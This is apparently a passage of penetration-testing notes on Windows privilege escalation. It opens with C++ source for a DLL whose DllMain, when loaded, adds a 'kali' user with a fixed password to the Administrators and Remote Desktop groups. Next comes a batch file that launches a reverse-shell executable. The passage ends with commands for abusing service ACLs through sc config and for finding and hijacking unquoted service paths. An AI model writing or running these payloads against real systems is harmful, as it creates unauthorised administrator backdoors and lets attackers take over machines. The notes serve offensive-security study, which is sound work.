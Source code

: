 ```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user kali kali123! /add");
  	    i = system ("net localgroup administrators kali /add");
  	    i = system ("net localgroup "Remote Desktop Users" kali /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

**.bat files**
- Just call an executable inside the batch file: `C:\Users\Public\reverseshell.exe`

**Abusing Service ACLs**
- If we have full control over a service, we can use `sc` to modify the service
- Something like `sc config {vulnerable_service} binpath="cmd /c net localgroup administrators {our_user} /add"` will do the trick
	- Alternatively, we could provide a path to a malicious executable

**Abusing Unquoted Service Paths**
- This occurs when we can write to a service's main directory without being able to modify the current files
- Can again be found using `wmic` in cmd: 
	- `wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """`
	- These will list potentially vulnerable paths
- Abusing this:
	- Let's say a service path is in use like `C:\Program Files\Enterprise Agents\Company Files\GammaServ.exe`
	- Windows will first check for `C:\Program.exe`, then `C:\Program Files\Enterprise.exe`, then `C:\Program Files\Enterprise Agents\Company.exe`, and finally `C:\Program Files\Enterprise Agents\Company Files\GammaServ.exe`
		- If we can write to the `C:\Program Files\Enterprise Agents\` directory, we can make an executable called `Company.exe`, which will be used before the real one
	- Then, restart the service somehow and our executable should run
